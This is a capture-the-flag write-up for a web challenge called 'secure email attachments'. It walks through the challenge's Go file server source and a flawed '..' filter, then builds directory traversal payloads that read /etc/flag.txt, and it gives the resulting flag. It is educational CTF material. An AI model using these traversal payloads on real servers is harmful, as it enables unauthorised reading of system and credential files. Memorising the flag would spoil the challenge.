 ```yaml
---
layout: writeup
title: secure email attachments
tags: WebX
---
```


## Description

Dear Raahguu,

During the email apocalypse, IT admins tried to prevent the DOS of all systems by disallowing attachments to emails. To get around this, users would create their own file storage web servers for hosting their attachments, which also got DOSed because everyone was mass spamming the links in emails...

Can you read /etc/flag.txt from the filesystem?

Regards,
MC Fat Monke


The challenge then also provided the source code for the email attachments file system


## Solution

This challenge was coded in `GO`, now luckily (as I don't know GO) we don't need to get too deep into semantics of the language.

Some setup. The files provided showed a dockerfile:

```bash
FROM golang:1.24.4-bookworm AS base

COPY app /app
WORKDIR /app
RUN go build .

FROM golang:1.24.4-bookworm
COPY --from=base /app/secure-email-attachments /app/secure-email-attachments
COPY --from=base /app/attachments /app/attachments
COPY --from=base /app/flag.txt /etc/flag.txt

USER www-data
WORKDIR /app
ENTRYPOINT [ "/app/secure-email-attachments" ]
```

This file lets us know the exact directory and paths of everything, particularly of where the code is being executed and where the flag is. Meaning that we know that in order to get the flag we need to read the data in the `../../etc/flag.txt` file.


Next the actual program we need to exploit:

```go
package main

import (
	"net/http"
	"path/filepath"
	"strings"

	"github.com/gin-gonic/gin"
)

func main() {
	r := gin.Default()

	r.GET("/*path", func(c *gin.Context) {
		p := c.Param("path")
		if strings.Contains(p, "..") {
			c.AbortWithStatus(400)
			c.String(400, "URL path cannot contain \"..\"")
			return
		}
		// Some people were confused and were putting /attachments in the URLs. This fixes that
		cleanPath := filepath.Join("./attachments", filepath.Clean(strings.ReplaceAll(p, "/attachments", "")))
		http.ServeFile(c.Writer, c.Request, cleanPath)
	})

	r.Run("0.0.0.0:1337")
}
```

This file has a bunch of go stuff I don't understand, but the real guts (the `main` function) seems pretty simple.

1. It initialises as webserver `r := gin.Default()` (this is an assumption, don't take my word for it, thats just the only thing I can see that code doing)
2. If the user sends a GET request to a certain path, then set that path value to `p`
3. If `p` has any instances of  `..` in it, deny their request
4. Remove any instances of the string `/attachments` in the path string `p`
5. Return to the user the data in the file at the path `p` that they inputted
6. Run the server

Now this chain of logic has a semi common exploit in it. Namley a time-of-check-to-time-of-use (TOCTOU) vulnerability. This is a vulnerability where the program checks a certain state, and then based on that check preforms an action. But, the state might end up changing between that check and the action.

In this case, the string `p` is checked if it containes any instances of `..` (step 3). Then, the program modifies the value of `p` by removing any instances of `/attachments` (step 4), before then preforming the action of returning to the user the file at path location `p`.

This can be exploited by creating a string that at first passes that check of noting having any `..`, and then have it be modified in such a way that it now has `..` and as such can be used for file traversal. In this case the string `./attachments.` passes the check, then `/attachments` is removed so it becomes `..`

As such we can do directory traversal and can merely grab the flag with the following payload:

What we want:

```text
../../etc/flag.txt
```

Transformation proccess:

```text
.. -> ./attachments.
```

Therefore the payload should be:

```text
./attachments././attachments./etc/flag.txt
```

This is what want the value of `p` to be, but the problem is due to URL normalisation most browsers (including curl) a `/./` at any point gets simplified to `/`

As such the payload needs to get a bit more convoluted to remove instances of `/./`

So the new payload needs to be

```text
/attachments./attachments.//attachments./attachments./etc/flag.txt
```

Note: when using these payloads, they look like this:

```text
**********.com/attachments./attachments./attachments./etc/flag.txt
```

This then returns the flag: `DUCTF{w00000000T!!1one!?!ONE_i_ThORt_tH3_p4RtH_w4R_cL34N!!1??}`
